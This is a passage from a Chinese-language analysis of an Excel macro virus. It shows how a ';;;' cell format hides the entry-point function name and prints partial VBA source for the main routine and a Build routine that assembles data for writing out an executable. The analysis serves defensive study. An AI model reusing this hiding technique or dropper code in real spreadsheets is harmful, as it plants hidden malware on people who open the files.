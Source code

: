 单元格格式设置为三个`;;;`时，单元格内容就会被隐藏。

![p3](http://drops.javaweb.org/uploads/images/41703db96cca18374f7d390badb3409c04374ffb.jpg)

单元格的格式默认是显示的，初始设置为，

![p4](http://drops.javaweb.org/uploads/images/65f3057c5ee7c217bae8b2122ed0340a7e535d62.jpg)

去掉隐藏后，查看表格中该值是 Fnslr12 ， 即病毒的功能入口函数名称，函数代码为，

```
Sub Fnslr12()

On Error Resume Next
Application.DisplayAlerts = False
Call Build
Sheets(1).Select
Dim WB As Workbook
Set WB = ActiveWorkbook

Dim Sh1, Sh2, sh3 As Worksheet
Set Sh1 = WB.Sheets(1)
Set Sh2 = WB.Sheets(2)

If Cells(2, 1) <> "" Then
GoTo skyhigh
End If
''' 以下省略

```

因此，该函数为病毒代码的主功能函数。

此函数的功能有，

### 1、Call Build

调用 Build 函数， Build 函数功能为：在表格中动态生成，待写入 可执行文件（pe文件）所需的数据，其功能代码简略如下，

```
Sub Build()

Sheets(2).Select
Set WB = ActiveWorkbook
Set Sh1 = WB.Sheets(1)
Set Sh2 = WB.Sheets(2)

'bob location
i = Sh2.Cells(1000, 12)
j = Sh2.Cells(1000, 13)

'index table location
R = Sh2.Cells(1000, 10)
C = Sh2.Cells(1000, 11)

Counter = R
Do While Sh2.Cells(Counter, C) <> ""

If Sh2.Cells(Counter, C + 1) <> "" Then
S1 = Sh2.Cells(Counter, C)
S2 = Sh2.Cells(Counter, C + 1)
End If
Counter = Counter + 1
Loop

Cells(i, j).Select
 Range(Selection, Selection.End(xlDown)).Select
```